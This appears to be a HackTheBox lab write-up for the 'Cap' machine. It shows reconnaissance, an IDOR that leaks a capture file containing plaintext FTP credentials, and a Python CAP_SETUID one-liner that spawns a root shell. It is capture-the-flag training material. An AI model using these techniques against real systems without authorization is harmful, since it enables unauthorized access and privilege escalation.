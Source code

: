 ```yaml
---
title: Cap
tags:
  - HackTheBox
  - Easy
  - Linux
  - IDOR
date: 2024-08-30T00:00:00Z
---
```

![](Pasted%20image%2020241030093859.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.245 cap.htb" | sudo tee -a /etc/hosts
```

Then I performed a Nmap scan:

```shell
nmap -sC -T4 -p- cap.htb > sC.txt

[redacted]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

So I checked the website:

![](Pasted%20image%2020241030094147.png)

Seems to be some kind of security dashboard. After inspecting the source code, I found the `/capture` subdirectory which allows to download a `.pcap`:

![](Pasted%20image%2020241030094954.png)

Once downloaded, I opened it with Wireshark. Unfortunately, this pcap hadn't anything interesting.

## Exploitation

Going back to check the website again, I tested for **IDOR** (Insecure Direct Object Reference) in the url, because the capture creation relays under `/data/<ID>`, so I tested it changing manually the id:

![](Pasted%20image%2020241030095410.png)

This worked and gave me a new capture to download.

Following along the TCP stream I noticed that there were FTP credentials in plain text:

![](Pasted%20image%2020241030095704.png)

> FTP Creds: `nathan:Buck3tH4TF0RM3!`

So I logged in the FTP service and saw the user.txt, but got no permissions. So I tried tris credentials via ssh, which also worked:

![](Pasted%20image%2020241030100147.png)

## Privilege escalation

I uploaded `linpeas` to the machine:

![](Pasted%20image%2020241030100854.png)

So I checked [GTFObins](https://gtfobins.github.io/gtfobins/python/#capabilities):

> [!Info]
> If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```shell
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

> Got the root flag :)

![](Pasted%20image%2020241030101440.png)

==Machine pwned!==